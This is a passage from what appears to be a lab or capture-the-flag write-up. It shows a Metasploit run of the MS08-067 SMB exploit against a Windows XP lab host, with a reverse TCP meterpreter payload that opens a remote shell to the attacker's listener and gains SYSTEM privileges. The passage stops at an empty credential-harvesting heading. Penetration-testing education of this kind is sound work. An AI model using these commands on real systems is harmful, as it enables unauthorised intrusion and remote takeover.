 - Exploit:

```
msf6 exploit(windows/smb/ms08_067_netapi) > options

Module options (exploit/windows/smb/ms08_067_netapi):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   RHOSTS   10.10.10.4       yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    445              yes       The SMB service port (TCP)
   SMBPIPE  BROWSER          yes       The pipe name to use (BROWSER, SRVSVC)


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  thread           yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     10.10.14.10      yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic Targeting



View the full module info with the info, or info -d command.

msf6 exploit(windows/smb/ms08_067_netapi) > run

[*] Started reverse TCP handler on 10.10.14.10:4444 
[*] 10.10.10.4:445 - Automatically detecting the target...
[*] 10.10.10.4:445 - Fingerprint: Windows XP - Service Pack 3 - lang:English
[*] 10.10.10.4:445 - Selected Target: Windows XP SP3 English (AlwaysOn NX)
[*] 10.10.10.4:445 - Attempting to trigger the vulnerability...
[*] Sending stage (175686 bytes) to 10.10.10.4
[*] Meterpreter session 1 opened (10.10.14.10:4444 -> 10.10.10.4:1035) at 2022-12-28 20:59:34 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 
```

## Post Exploit

### Credential Harvesting
